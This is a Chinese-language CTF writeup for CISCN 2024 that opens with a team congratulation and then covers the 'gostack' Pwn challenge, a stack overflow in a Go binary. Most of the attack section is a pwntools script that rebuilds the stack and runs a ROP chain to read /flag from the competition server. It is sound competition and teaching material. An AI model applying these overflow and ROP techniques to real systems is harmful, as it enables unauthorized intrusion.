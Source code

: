 ```yaml
---
title: CISCN 2024
tags: Writeup 
layout: article
mathjax: true
article_header:
  type: cover
  image:
---
```


![image-20240519171617792](https://raw.githubusercontent.com/lmarch2/images/main/typora/202405191716896.png)

![image-20240519180159193](https://raw.githubusercontent.com/lmarch2/images/main/typora/202405191852015.png)

恭喜HASHTEAM@SDU在本届国赛获得山东省第一，华东北第六，全国前五十的好成绩！🎉🎉



一队wp懒得转md了，放个二队的

## Pwn

### gostack

ida打开发现是go，动调发现输入很多字符会导致栈溢出而程序报错退出

简单找了一下向栈上写数据的位置，找到任意长度栈溢出，但是不能破坏rbp上方的部份数据

大体思路是进行栈溢出的时候保护好原有的栈结构，可以先dump一段栈加到payload中，再进行ret2syscall

exp如下：

```python
#!/bin/python3

from pwn import *
context.arch = 'amd64'
c = remote("8.147.131.163", 22191)
poprdir14r13r12rbprbx = 0x00000000004a18a5
poprdx = 0x00000000004944ec
poprsi = 0x000000000042138a
poprax = 0x000000000040f984
syscall = 0x00000000004616c9
#syscall ; ret
payload = flat(0x4aa800, 0x8, 0x4aa800, 0xc000090340, 0x4aa800, 0x4df040, 0xc00004ad98, 0x100, 0x100, 0x4df4e8, 0xc0000b4000, 0x4c5dd0, 0x10000, 0xc0000bc000, 0x8, 0x1000, 0xc0000bc000, 0x1000, 0x1000, 9, 9, 0, 0, 1)

#pading + ori_stack + rop
c.sendlineafter('message :\n', cyclic(0x100) + payload + flat(0xdeadbeef, 0, poprax, 0, poprdir14r13r12rbprbx, 0, 0, 0, 0, 0, 0, poprsi, 0x549000, poprdx, 8, syscall, poprax, 2, poprdir14r13r12rbprbx, 0x549000, 0, 0, 0, 0, 0, poprsi, 0, poprdx, 0, syscall, poprax, 0, poprdir14r13r12rbprbx, 3, 0, 0, 0, 0, 0, poprsi, 0x549000, poprdx, 50, syscall, poprax, 1, poprdir14r13r12rbprbx, 1, 0, 0, 0, 0, 0, poprsi, 0x549000, poprdx, 50, syscall,))

c.send(b'/flag\0')

c.interactive()
```
